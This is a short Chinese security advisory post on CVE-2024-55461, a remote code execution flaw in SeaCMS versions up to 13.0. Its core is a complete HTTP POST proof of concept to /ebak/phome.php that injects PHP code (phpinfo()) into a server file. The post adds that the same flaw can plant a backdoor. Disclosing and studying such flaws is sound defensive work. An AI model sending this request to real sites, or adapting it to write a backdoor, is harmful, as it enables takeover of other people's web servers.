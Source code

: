 #  CVE-2024-55461｜SeaCMS海洋影视管理系统远程代码执行漏洞（POC）   
alicy  信安百科   2024-12-28 09:56  
  
**0x00 前言**  
  
  
海洋CMS是一套专为不同需求的站长而设计的内容管理系统，灵活、方便、人性化设计、简单易用是最大的特色，可快速建立一个海量内容的专业网站。海洋CMS基于PHP+MySql技术开发，完全开源免费 、无任何加密代码。   
  
  
官网:www.seacms.net  
  
  
  
**0x01 漏洞描述**  
  
  
海洋CMS的/ebak/phome.php接口处存在远程代码执行漏洞，经过身份验证的远程攻击者可利用该漏洞执行任意代码写入后门文件，进而控制整个web服务器。  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-55461  
  
  
  
**0x03 影响版本**  
  
  
海洋CMS <= 13.0  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://gitee.com/FengFu01/sea/issues/IB8S1N  
  
```
POST /z5fskt/ebak/phome.php?phome=RepPathFiletext HTTP/1.1
Host: seacms
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms/z5fskt/ebak/ReData.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4qqjagpiagq24ekmdl76fljqac
Connection: close

mypath=test&oldword=sea_co_cls&newword=phpinfo()&dozz=1
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urv7A3NK92iafROqjwQfOPK7O38PC5pvlouvuAib2vXdQeX13dQlxR75YmMfppkwmf8CVibZ5iac7IYcw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urv7A3NK92iafROqjwQfOPK735SAVH3FcWCsZKf3LWpUGCm576kxRmlZbA2MwDPQ7C8xGMrzE8iaNIA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://gitee.com/FengFu01/sea/issues/IB8S1N  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-48307｜JeecgBoot SQL 注入漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485712&idx=1&sn=34d09311081e1ccdcc96464b3824f719&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-37383｜Roundcube Webmail存储型XSS漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485685&idx=1&sn=838e54bc45cab050c38c37137d553fa1&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-42009｜Roundcube Webmail跨站脚本漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485549&idx=2&sn=bd0fed193fad260b6fb53993cc21a43c&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  

